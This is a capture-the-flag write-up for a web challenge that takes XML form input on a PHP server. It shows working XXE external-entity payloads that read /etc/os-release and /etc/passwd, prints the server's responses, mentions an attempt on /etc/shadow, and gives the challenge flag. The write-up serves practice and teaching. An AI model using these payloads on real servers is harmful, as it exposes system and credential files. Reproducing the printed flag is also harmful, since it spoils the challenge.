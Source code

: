 # DeClastley

## Problem

Once you successfully complete this challenge you'll come across a string in this format: PlexTrac\_CTF=string. This is NOT the flag for points.

## Links

* https://declastley.plexhax.com

## Notes

### Hint

"Try taking a close look at the request and response in an intercepting proxy like burp community or zap proxy"

This hint was said on the CTF Discord.  Recommending to checkout the request and response with Burp, a tool able to act as a transparent proxy.  Messing around with Burb I was unfamiliar with the tool to know how best to use it to solve this challenge.

## Wireshare

My first idea based off the hint was that the server was sending multiple packets in response.  Some of these packets were not being handled correctly by the client but still were noticed so a tool like Wireshark would notice them.

Wireshare can't decrypt https message (with good reason), so it needs to be passed the certs.  An easy way to give wireshark access is to set the environmental variable `export SSLKEYLOGFILE=./tlslog.txt`.  In Wireshark in preferences, look up TLS protocol and at the bottom is a field "(Pre)-Master-Secret log filename".  Provide the path to the SSLKEYLOGFILE.  Then to prevent too much noise `curl` can be used.

```bash
curl --header "Content-Type: application/json" --data '<?xml version="1.0" encoding="UTF-8"?><root><name>kjhggkj</name><tel>gkgkhkjhjkhg</tel><email>email@email.com</email><password>iluhkljklhj</password></root>' https://declastley.plexhax.com/process.php
```

This would end up with no results though.  Looking at all requests and responses there is nothing special being sent.  

### XML Injection

The page https://declastley.plexhax.com leads to a form.  This form when submitted does a post request to /process.php and the body is a xml body.  Depending on any of the data put in the only field that has any response to change is the email field.  Changing the email changes the response saying what our email is.  The response header contains info about the server using PHP/8.0.12.  Along with this being XML I think the solution is try to inject a payload in the xml to get the flag.

One of the first results for googling xml payload to php server is, [XML External Entity (XXE) Injection Payload Cheatsheet](https://hackersonlineclub.com/xml-external-entity-xxe-injection-payload-cheatsheet/).  On this page is example of creating a variable and passing it, and telling that variable to show in one of the fields.  If we use that example in this challenge,

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<root>
    <name>$xxe</name>
    <tel>adfasdf</tel>
    <email>&example;</email>
    <password>asdfasfd</password>
</root>
```

The response is, "Sorry, Doe is already registered!".  That might be indicative that this site is venerability to XXE Injection Payload.  Moving to an xml request that tries to view files on the machine.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/os-release"> ]>
<root>
    <name>$xxe</name>
    <tel>adfasdf</tel>
    <email>&ent;</email>
    <password>asdfasfd</password>
</root>
```

The response is,

```text
Sorry, NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.14.2
PRETTY_NAME="Alpine Linux v3.14"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
is already registered!
```

This shows that the server is definitely susceptible to this attack.  Tried to access the `/etc/shadow` file but that returned nothing.  Showing that the web app is not running as sudo.

Using the same exploit to show files on the system though shows that the flag is in the `/etc/passwd` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
    <name>$xxe</name>
    <tel>adfasdf</tel>
    <email>&ent;</email>
    <password>asdfasfd</password>
</root>
```

The response,

```text
Sorry, root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
garfunkle:x:1000:102::PlexTrac_CTF=siskin_liard:/bin/ash
is already registered!
```

The flag is shown near the bottom.

## Solution

This challenge is a form with an obvious php backed that takes an XML form.  A response header even shows that version of php is running.  With that knowledge a XML External Entity (XXE) Injection Payload can be attempted to see if access to files is possible.  Using the xml body,

```xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
    <name>$xxe</name>
    <tel>adfasdf</tel>
    <email>&ent;</email>
    <password>asdfasfd</password>
</root>
```

The flag is found in the passwd file. The flag for this challenge is PlexTrac_CTF=siskin_liard

